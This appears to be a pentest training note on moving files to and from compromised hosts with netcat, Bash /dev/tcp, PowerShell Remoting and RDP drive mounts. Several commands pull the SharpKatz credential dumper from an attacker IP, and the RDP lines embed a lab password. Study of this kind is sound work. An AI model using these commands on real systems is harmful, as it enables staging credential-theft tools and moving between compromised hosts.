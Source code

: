 # Netcat - nc
---
The target or **attacking machine can be used to initiate the connection**, which is helpful if a firewall prevents access to the target.

- On Victim Machine - receiving file:
	- `nc -l -p 8000 > SharpKatz.exe` => Original netcat
	- `ncat -l -p 8000 --recv-only > SharpKatz.exe` => Using ncat
- On Attack Host - uploading file:
	- `nc -q 0 192.168.49.128 8000 < SharpKatz.exe`
	- `ncat --send-only 192.168.49.128 8000 < SharpKatz.exe` => Using ncat

- Instead of listening on our compromised machine, **we can also connect to a port on our attack host to perform the file transfer operation.**:

- Attack Host - Sending File as Input to Netcat:
	- `sudo nc -l -p 443 -q 0 < SharpKatz.exe`
- Compromised Machine Connect to Netcat to Receive the File:
	- `nc 192.168.49.128 443 > SharpKatz.exe`

- If **we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations** on a pseudo-device file `/dev/TCP/`:

- NetCat - Sending File as Input to Netcat:
	- `sudo nc -l -p 443 -q 0 < SharpKatz.exe`
- Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File:
	- `cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`

# PowerShell Session File Transfer
---
- [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions.
- To create a PowerShell Remoting session on a remote computer, **==we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting==** in the session configuration.
- Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.
- We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

- From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.:
	- `whoami`=> Administrator
	- `hostname` => DC01
	- `Test-NetConnection -ComputerName DATABASE01 -Port 5985`

- Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.

- Create a PowerShell Remoting Session to DATABASE01:
	- `$Session = New-PSSession -ComputerName DATABASE01`
- Copy samplefile.txt from our Localhost to the DATABASE01 Session:
	- `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`
- Copy DATABASE.txt from DATABASE01 Session to our Localhost:
	- `Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

# RDP
---
- We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.
- As an alternative to copy and paste, **we can mount a local resource on the target RDP server. rdesktop or xfreerdp can be used to expose a local folder in the remote RDP session.**

- Mounting a Linux Folder Using rdesktop:
	- `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`
- Mounting a Linux Folder Using xfreerdp:
	- `xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
- To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.
- **Note:** This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.